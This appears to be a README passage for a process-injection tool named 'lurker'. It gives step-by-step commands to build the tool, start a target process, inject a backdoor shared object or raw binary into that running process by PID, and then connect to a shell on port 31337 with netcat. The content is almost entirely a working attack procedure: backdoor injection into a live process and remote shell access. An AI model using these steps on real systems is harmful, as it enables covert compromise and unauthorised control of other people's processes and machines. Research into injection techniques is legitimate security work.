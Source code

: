 1. Run `make`.

2. start the target process, such as `saruman`, by executing: `./saruman`.

3. In another terminal, execute: ./lurker \`pidof saruman\` \`pwd\`/bkdoor_so.so OR ./lurker --b \`pidof saruman\` bkdoor.o.bin to inject the code into the target process, such as `saruman`.

4. Finally, you can run: `nc 127.0.0.1 31337`.


